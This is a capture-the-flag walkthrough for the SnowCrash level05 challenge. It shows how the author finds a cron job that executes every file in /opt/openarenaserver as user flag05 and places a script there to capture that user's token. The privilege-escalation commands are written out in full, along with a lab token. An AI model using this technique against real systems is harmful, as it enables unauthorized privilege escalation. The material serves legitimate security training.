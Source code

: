 For this level, by searching a bit we found 2 files that we can maybe use.

	level05@SnowCrash:~$ find / -type f -iname level05 2>/dev/null
	/var/mail/level05
	/rofs/var/mail/level05

	level05@SnowCrash:~$ find / -user flag05 2>/dev/null
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver	

We need to see what is inside it.

	level05@SnowCrash:~$ cat /var/mail/level05
	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

	level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done
	level05@SnowCrash:~$

The level05 file make us understand that there is a cron job that run every 2 minutes,
it switch to user "flag05" and run the script located in "/usr/sbin/openarenaserver".

So we have to put a file to get the flag.
We cannot just "getflag" because we would not see the flag appear in the prompt due to the script running by flag05.

	echo "getflag > /tmp/flag" > /opt/openarenaserver/file

Now we need to wait maximum 2 minutes and go check the content of the flag file in /tmp.

	level05@SnowCrash:/tmp$ cat flag
	Check flag.Here is your token : viuaaale9huek52boumoomioc
